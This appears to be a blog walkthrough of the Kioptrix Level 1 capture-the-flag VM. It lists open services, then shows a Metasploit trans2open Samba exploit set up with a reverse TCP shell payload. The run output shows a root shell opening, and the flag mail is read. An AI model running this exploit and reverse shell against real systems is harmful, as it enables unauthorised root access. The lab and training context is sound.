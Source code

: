 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1 Walkthrough"
date:   2023-01-18 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1 Walkthrough, CTF solution for Kioptrix Level 1.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-solid fa-fire">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 2.9p2 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>netbios-ssn</p></pc>
           </td>
           <td>
               <pc><p>Samba</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Samba Enumeration

Based on the age of the system other services, I know from exeperience that SAMBA is likely vulnerable to the trans2open exploit.


{% highlight bash %}


use exploit/linux/samba/trans2open

msf exploit(trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.221.156  yes       The target address
   RPORT  139              yes       The target port


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.221.139  yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


{% endhighlight %}


## Metasploit Exploit

{% highlight bash %}
msf exploit(trans2open) > run

[*] [2015.12.20-21:05:39] Started reverse handler on 192.168.221.139:4444
[*] [2015.12.20-21:05:40] Trying return address 0xbffffdfc...
[*] [2015.12.20-21:05:41] Trying return address 0xbffffcfc...
[*] [2015.12.20-21:05:42] Trying return address 0xbffffbfc...
[*] [2015.12.20-21:05:43] Trying return address 0xbffffafc...
[*] Command shell session 1 opened (192.168.221.139:4444 -> 192.168.221.156:1025) at 2015-12-20 21:05:44 -0500


^Z
Background session 1? [y/N]  N

id
uid=0(root) gid=0(root) groups=99(nobody)
hostname
kioptrix.level1
^Z
Background session 1? [y/N]  y
{% endhighlight %}


## Root Flag


Root Flag

{% highlight bash %}
sh-2.05# cd /var/spool/mail
cd /var/spool/mail
sh-2.05# ls
ls
harold
john
nfsnobody
root
sh-2.05# cat root   
cat root
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
    by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
    for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: O

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
{% endhighlight %}
